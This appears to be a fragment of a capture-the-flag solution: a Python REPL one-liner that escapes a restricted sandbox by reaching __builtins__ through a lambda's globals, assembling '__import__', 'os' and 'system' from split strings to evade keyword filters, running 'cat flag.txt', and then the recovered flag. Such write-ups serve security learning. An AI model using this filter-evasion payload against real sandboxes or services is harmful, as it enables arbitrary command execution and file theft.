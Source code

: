 ```Py
>>> a = lambda x:print("h")
>>> print(getattr(getattr(a.__globals__['__'+'buil'+'tins'+'__'], '__im'+'por'+'t__')('o'+'s'), "sy"+"st"+"em")('cat flag.txt'))
```

flag{y4_sl1th3r3d_0ut}
